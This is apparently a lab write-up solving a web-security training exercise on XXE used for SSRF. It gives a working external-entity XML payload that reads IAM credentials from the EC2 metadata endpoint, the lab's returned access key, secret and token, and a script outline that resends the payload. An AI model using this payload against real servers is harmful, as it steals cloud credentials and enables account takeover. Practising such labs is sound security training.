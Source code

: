 ### Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint

_____

Analysis and Exploit:

1. Send POST request **/product/stock** with XML text
    - ```<?xml version="1.0" encoding="UTF-8"?>```  
    ```<stockCheck><productId>1</productId>```  
    ```<storeId>1</storeId></stockCheck>```
2. Modify the XML to create a payload to trigger a SSRF attack
    - ```<?xml version="1.0" encoding="UTF-8"?>```  
    ```<!DOCTYPE jito [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>```   
    ```<stockCheck><productId>&ssrf;</productId><storeId>1</storeId></stockCheck>```

"Invalid product ID: {  
"Code" : "Success",  
"LastUpdated" : "2023-04-08T19:43:44.954822447Z",  
"Type" : "AWS-HMAC",  
"AccessKeyId" : "8kR7LI2qq3NBmKUY4swF",  
"SecretAccessKey" : "5iW0A4n5c0CdRj1T43ZAooE55BiULhBIiMeUHezB",  
"Token" :   "mJ94q8HVKDn3SulXG8LCen0JnvufcgzqwOdVB9o8GyaNZftW9pxBuybCNNcK2KTmjgspUCxMwy44IBpbuh5huAYVSxulQuSP5kGUEfmM4zOkuyoIyjNiOwJ840ixBoPSFeoQInGGuSw5vwZkRkhDBFXDObenjoF7Tr4k7rcTHx67zltBuSKlNJpHu1bzWxrIvho8KjEbwIXApqkt5czDF8ddEWPUgh0iXdB82z6kTv7qUns6azQDlDB5dtSrIUro",  
"Expiration" : "2029-04-06T19:43:44.954822447Z"  
}"

_____

Script:

1. Send payload and print the sensitive information | POST **/product/stock** | params: 'xml payload'
    -  ```<?xml version="1.0" encoding="UTF-8"?>```  
    ```<!DOCTYPE jito [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>```   
    ```<stockCheck><productId>&ssrf;</productId><storeId>1</storeId></stockCheck>```
    - if "SecretAccessKey" in the response text, print the entire response text
    